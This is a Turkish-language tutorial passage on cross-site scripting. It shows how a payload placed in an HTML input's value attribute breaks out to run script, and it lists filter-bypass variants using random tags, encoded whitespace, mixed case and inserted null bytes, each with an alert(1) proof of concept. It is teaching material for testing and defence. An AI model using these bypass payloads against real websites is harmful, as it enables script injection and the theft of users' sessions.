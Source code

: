 HTML dosyalarının içerisinde yazılan etiketler ve özellikler javascript kodları ile bağlantılı şekilde çalışıyorsa manipüle edilebilir. HTML ile kodlanan bir sayfadaki girdi alanına XSS payload’ı girilirse, girdi alanındaki payload javascript kodu içerisinde çalıştırılarak XSS zafiyetini tetikleyebilir. Örneğin;

```javascript
<input type=”text” name=”input” value=”test”>
```

input etiketinin içerisindeki value değişkenine **test** değerinin atandığı varsayımı olursa;

```javascript
<input type=”text” name=”input” value=”><script>alert(1)</script>
```

HTML kodunun içerisine zararlı payload yerleştirilir. Sayfa çalıştırıldığında belirtilen input alanındaki value parametresine atanan  payload çalışarak XSS zafiyeti tetiklenebilir. HMTL kodlarında; 

```javascript
<rastgeleTag type=”text” name=”input” value:”><script>alert(1)</script>
```

rastgele etiketler kullanılarak XSS filtreleme teknikleri atlatılabilir.

```javascript
<input/type="text" name="input" value="><script>alert(1)</script>

<input&#9type="text" name="input" value="><script>alert(1)</script>

<input&#10type="text" name="input" value="><script>alert(1)</script>

<input&#13type="text" name="input" value="><script>alert(1)</script>

<input/'type="text" name="input" value="><script>alert(1)</script>
```

Yukarıda gösterilen XSS payload etiketlerinde değişiklikler yapılarak XSS filtreleri atlatılabilir. Ayrıca etiketler üzerinde değişiklikler yapılarak da atlatılabilir. Örneğin;

```javascript
<iNpUt type="text" name="input" value="><script>alert(1)</script>
```

HTML kodunda, etiketin harflerini büyük harf ve küçük harf olarak ayarlayarak XSS filtrelemeleri atlatılabilir. **script** etiketlerinin arasına boş bayt eklenildiği gibi diğer etiketler arasına da eklenilebilir. Örneğin;

```javascript
<%00input type="text" name="input" value="><script>alert(1)</script>

<inp%00ut type="text" name="input" value="><script>alert(1)</script>
```

**input** etiketlerinden önce, sonra veya etiket haflerinin arasına boş bayt eklenerek XSS filtreleri atlatılabilir. Etiketler üzerinde yapılan değişiklikler, özellikler ve değerler üzerinde de yapılabilir. Örnek olarak;

```javascript
<input t%00ype="text" name="input" value="><script>alert(1)</script>

<input type="text" name="input" value="><script>a%00lert(1)</script>
```
